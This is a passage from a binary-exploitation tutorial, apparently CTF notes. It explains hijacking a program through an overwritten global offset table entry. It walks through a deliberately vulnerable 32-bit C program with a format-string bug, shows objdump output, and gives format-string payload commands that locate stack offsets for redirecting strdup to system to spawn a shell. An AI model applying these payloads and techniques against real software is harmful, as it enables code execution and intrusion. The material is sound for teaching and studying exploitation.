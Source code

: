 
## Process Of Getting Code Execution
- In `dynamically linked programs`, these are easy to find when a program attempts to execute a function in a shared library.

	- it `does not necessarily know the location of that function at compile time`. Instead, it `jumps` to a `stub function` that `has a pointer to the correct location` of the function in the shared library. 

	- This `pointer` (located in the global offset table, or `GOT`) is initialized at runtime when the `stub function is first called`.
		- For example, when `strcat` is used in a program, the following piece of stub code allows the program to find the correct location in the shared library `libc` at run time:
```bash
$ objdump -d a.out
... <snip> ...
08048330 <strcat@plt>:
 8048330:       ff 25 04 a0 04 08       jmp    *0x804a004
 8048336:       68 08 00 00 00          push   $0x8
 804833b:       e9 d0 ff ff ff          jmp    8048310 <_init+0x3c>
... <snip> ...
```
- Here you can see that the `stcat@plt` is the stub function that jumps to GOT entry for `strcat` (the address `0x804a004`)

- We can write any value we want to `0x804a004`. When `strcat` is used later in the program, the program will instead transfer code execution to the value we specified.

- A common technique is to overwrite the GOT entry with the address of the function `system`, thereby turning a call of `strcat(buffer, "hello")` into the call `system(buffer)` (if we can control the contents of `buffer`, we can get a shell!).


### Example
```c
#include <stdio.h>
#include <string.h>
// compile with gcc -m32 temp.c

int main(int argc, char** argv) {
  printf(argv[1]);
  strdup(argv[1]);
}
```
- GAME PLAN:
	- overwrite the GOT entry of `strdup` with the address of `system`, so the program will `printf(argv[1])` then `system(argv[1])`.
	
	- Hence, our payload must be a valid argument to `system` - we will start our payload with `sh;#` 
	
	- which will be `sh` and cause the rest of the payload to be a comment. This also has the advantage of being exactly 4 bytes long, which isn't important for this example but is very useful in other cases
```python
$ env -i ./a.out "$(python -c 'import sys; sys.stdout.write("sh;#AAAABBBB%00000x%17$hp%00000x%18$hp")')"
sh;#AAAABBBB00xf7fcbff48048449(nil)
```
- Our goal is to find the correct offsets (instead of 17 and 18) so that the we output `sh;#AAAABBBB<garbabe>0x41414141<garbage>0x42424242`. This takes some work, but in our case the correct offsets are 99 and 100:
```bash
$ env -i ./a.out "$(python -c 'import sys; sys.stdout.write("sh;#AAAABBBB%00000x%99$hp%00000x%100$hp")')"
sh;#AAAABBBB00x4141414180484490x42424242
```
